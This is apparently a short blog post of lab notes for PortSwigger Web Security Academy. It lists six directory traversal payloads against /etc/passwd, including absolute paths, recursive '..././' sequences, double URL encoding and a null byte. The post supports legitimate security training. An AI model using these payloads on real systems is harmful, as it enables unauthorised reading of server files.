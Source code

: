 ```yaml
---
layout: post
title:  "PortSwigger - Authentication - Mystery Labs Checklist"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal]
categories: [PortSwigger]
---
```


## 1. Use basic directory traversal:
```
../../../../etc/passwd
```

## 2. Use absolute path:
```
/etc/passwd
```

## 3. Use recursion: 
```
..././..././..././..././etc/passwd
```

## 4. Use double url encoding
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```

## 5. Use start of path:
```
/var/www/images/../../../../etc/passwd
```

## 6. Use null byte:
```
../../../etc/passwd%00123.png
```
<hr/>
